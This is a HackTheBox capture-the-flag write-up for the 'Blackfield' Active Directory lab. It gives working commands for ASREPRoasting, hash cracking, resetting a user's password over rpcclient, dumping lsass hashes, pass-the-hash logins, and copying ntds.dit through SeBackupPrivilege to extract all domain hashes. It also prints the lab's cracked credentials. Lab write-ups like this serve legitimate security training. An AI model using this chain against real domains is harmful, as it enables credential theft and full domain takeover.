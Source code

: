 ```yaml
---

title: HackTheBox - Blackfield
layout: post
date: 2020-10-03 23:00:00 +0800

---
```


![e4b91035871b12ac8cd1cd45348d29d4.png](/images/htb-blackfield/a6468cb9555b4d5a977aeaff8dda5cfd.png)

### 0. Preface

If you didn't know that you could reset passwords through RPCClient, now you do. I also never had a chance to play with SeBackupPrivilege tokens, so this was a very nice learning opportunity as well. 

In this box, we will be tackling: 

1. ASREPRoasting to get valid users and TGTs
2. Using RPCClient to reset passwords
3. Reading memory dump of lsass
4. Abusing SeBackupPrivilege token and dumping NTDS.dit

<!--excerpt-->

---

### 1. Preliminary NMAP Scan

```bash
sudo nmap -sC -sV -oN nmap.txt -p- 10.10.10.192 -v
```

![7cd63ca236f3df14127cffada491d641.png](/images/htb-blackfield/ded3de6087fe4258bbd1b0b2609fa6e6.png)

![c739fa0c00b66ace4aab963ae94582a4.png](/images/htb-blackfield/ccd194d9fc474679a26ea094beb7ed1c.png)

This is a domain controller with the hostname of DC01, and the domain name of `blackfield.local`. WinRM is open, so we can likely use that to gain access into the domain controller later on once we have valid credentials. 

### 2. Active Directory Enumeration

Let's start off with anonymous SMB enumeration. 

![9102085982249843f854ca81f1941d43.png](/images/htb-blackfield/62fd71e83fe24bb3b8b561a398943806.png)

Let's try going into the `profiles$` share. 

![9d66ca42bfa9cdd886364e2144fdf547.png](/images/htb-blackfield/a0a68a8dbd864209ac837b7afec610a1.png)

This gives us a ton of potential usernames. Let's try to ASREPRoast these usernames. 

```
GetNPUsers.py blackfield.local/ -no-pass -usersfile userlist.txt -dc-ip 10.10.10.192
```

![5ddbc9e5b1699fabb41216d135be0a56.png](/images/htb-blackfield/878e7afbb23046be88e81fb0a4d3df64.png)

Awesome. We got a hit. Out of the whole list, it seems like only `support`, `audit2020` and `svc_backup` are valid users. Let's crack the TGT for `support` using `john`. 

```text
sudo john --wordlist:/usr/share/wordlists/rockyou.txt support.hash
sudo john --show support.hash
```

![b10b66bfa22d417dfeb8d6276972cb63.png](/images/htb-blackfield/1ba72baa13d24da792dc1907fa1e60b7.png)

We have our first set of credentials - `support:#00^BlackKnight`

### 3. RPCClient Password Reset

Let's use `rpcclient` to further enumerate the domain controller using the credentials we got earlier. 

```text
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192

enumalsgroups builtin
queryaliasmem builtin 0x244
lookupsids S-1-5-21-4194615774-2175524697-3563712290-1413
```
 
![06cb1700cb342781d33fb09228dd5253.png](/images/htb-blackfield/546c6573f47c4293b9c1398d95e72b1f.png)

We find that `svc_backup` is part of remote management group, which will allow us access into the domain controller if we manage to get the password. 

Back tracking a bit, there is a forensic share with the comment forensic/audit share. Quick guess - this is accessible using the  `audit2020` user. 

Let's see if we can't reset the password for `audit2020` [using rpcclient](https://malicious.link/post/2017/reset-ad-user-password-with-linux/).

```text
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192

setuserinfo2 audit2020 23 'P@$$w0rd12345'
```

![c613a405d8e113571ea6d221eb430716.png](/images/htb-blackfield/db7565ab16e6450d88600ca4e87febf3.png)

Awesome, seems to be successful. 

### 4. Extracting NTHashes from LSASS Memory Dump

Let's see what the `audit2020` user can access using `smbmap`.

```text
smbmap -u 'audit2020' -d 'blackfield.local' -p 'P@$$w0rd12345' -H 10.10.10.192
```

![964dc95b39d3009c343b75744ed052a1.png](/images/htb-blackfield/b5c70faae6a245abaec8c5eb1fecb64a.png)

We guessed right. Let's download everything from the forensic share and enumerate it offline.

![df1519b8385f8f9ae8db526b9734f993.png](/images/htb-blackfield/11ac8be0b86d455681dd05a8e283ef2c.png)

There's a lot of files in here, so let's focus on the only one that matters. 

There is a folder that contains the memory dumps of some processes.

![7c96810edab3f84db8dab222f6e9fe5c.png](/images/htb-blackfield/033e4d6aade14a2cadd349365ebab4a5.png)

What sticks out is `lsass.zip`, which contains hashes of all logged on users at that point in time. 

Let's extract it. 

![f759867774f60838036f33c893688e95.png](/images/htb-blackfield/49668e9e10c541cf98c3cf223f367e9c.png)

Now that we have the dump file, let's use `pypykatz` to dump the hashes from it.

```bash
pypykatz lsa minidump lsass.DMP >> lsass-dump.txt
```

![40ee337413c2fc87dc726dd80cc52308.png](/images/htb-blackfield/300f5a480b084de0a10fde998ea06da2.png)

Awesome, we got the hash of `svc_backup` and `administrator`.

![5385241a9e91cf5e7bc00861f7dd53aa.png](/images/htb-blackfield/8c344b1786e149279cd44176c269efb3.png)

### 5. Exploiting Backup Privileges

First, let's try to pass the administrator hash using `evil-winrm`.

```bash
evil-winrm -i 10.10.10.192 -u 'blackfield.local\administrator' -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

![775d8ac8d5e909bebc1b194ca80d4506.png](/images/htb-blackfield/9baf5921e8e74ce690ae646aba70ccec.png)

Seems like the password has been changed since the dump. Let's try `svc_backup` next.

```bash
evil-winrm -i 10.10.10.192 -u 'blackfield.local\svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d
```

![01cbe65ec2ccf491604fc7435ab9264b.png](/images/htb-blackfield/69005f9594704403b532a343da3ff05b.png)

We're in. Let's grab the user flag from the desktop first. 

Next, let's see what rights this user has.

![eca6154b8c99889864241ab731c6a056.png](/images/htb-blackfield/80af0875fbd84e7984b4b3fedc6ca0c7.png)

We see that it has both the SeBackupPrivilege and SeRestorePrivilege tokens, which allows us to read, copy and write to any file in the system. 

We should be able to exploit these privileges by copying out and extracting the administrator LM/NTHash from `ntds.dit`, which is the password database for Active Directory servers.

After a fair bit of Googling, we find [this Github repository](https://github.com/giuliano108/SeBackupPrivilege) which contains PowerShell cmdlets to allow us to exploit the SeBackupPrivilege token. We also find [this Github repository](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group), which walks through how to create a shadow copy backup of the domain controller, since the `ntds.dit` cannot be copied out normally. 

First, let's create a `script.txt` file with the following content to prepare to shadow copy "backup" the domain controller.

```text
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive

create

expose %mydrive% w:
end backup
```

To prevent weird encoding issues, use `unix2dos script.txt` to convert it to dos (windows) format. Now, let's upload the file to the remote session using `evil-winrm`. 

![f6c14a634c331281cfdd9e2d2bf802d9.png](/images/htb-blackfield/3168d99527364bd4af253a3561a107c6.png)

Now, we can run `diskshadow /s script.txt` to trigger the shadow copy backup, which will be exposed on `w:\`. 

![d2e0f81147aff20a5a10c3d31f9d6b92.png](/images/htb-blackfield/35c52e3a76c345f184f587343cf80d31.png)

Before we can actually copy out `ntds.dit` from the shadow copy backup, we will need to make use of the PowerShell cmdlets found in the first Github repository earlier. 

We can upload the whole SeBackupPrivilegeCmdlets folder into the server using `evil-winrm`. 

![22c2ef1dc14bda4010a186bfa5911bba.png](/images/htb-blackfield/f21f9a92689347baaf25591df07716df.png)

Next, we can import the modules found in the `/bin/debug` folder. You can run `Get-Module` after this to verify that they have been imported successfully.

```powershell 
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

![a8f5ddf38cc13c6286559d4729f10cb3.png](/images/htb-blackfield/a123e76505304d30a2486837207299f4.png)

Next, navigate to `W:\windows\ntds`. 

![d9cbfcf667e79697520cb9fa9178b3c9.png](/images/htb-blackfield/320971581804474f889140bf8a037c6f.png)

Copy the `ntds.dit` file using `Copy-FileSeBackupPrivilege`, but ensure that the destination filename is different or it will not work.

```powershell
Copy-FileSeBackupPrivilege ntds.dit $env:LOCALAPPDATA\microsoft\database
```

We also need the `HKLM\SYSTEM` registry hive to dump the `ntds.dit` file, so let's grab that too. 

```powershell
reg save HKLM\SYSTEM $env:LOCALAPPDATA\microsoft\sys
```

Let's download everything back to our machine.

![bd98bdeb004cabbb14355a0c37fba280.png](/images/htb-blackfield/f3ca200f46e34a359d934e418608d132.png)

![f2c6683d0f4c239bed8ad2763a69e26f.png](/images/htb-blackfield/bdff53ab3dc744deb2fbb61cf40554d5.png)

Now, let's use `secretsdump.py` to dump `ntds.dit`. 

```bash
secretsdump.py -system sys -ntds database LOCAL >> secretsdump.txt
```

![99228ae5aec0fbc56eb93ab24d41a3ae.png](/images/htb-blackfield/fba0ffe096b04db089539876b869f689.png)

Now we can finally pass the (real) administrator hash and get the root flag.

![ba41e182e26278e5d8020088edece4cd.png](/images/htb-blackfield/ace1737b360545d0a726441625ef2bbc.png)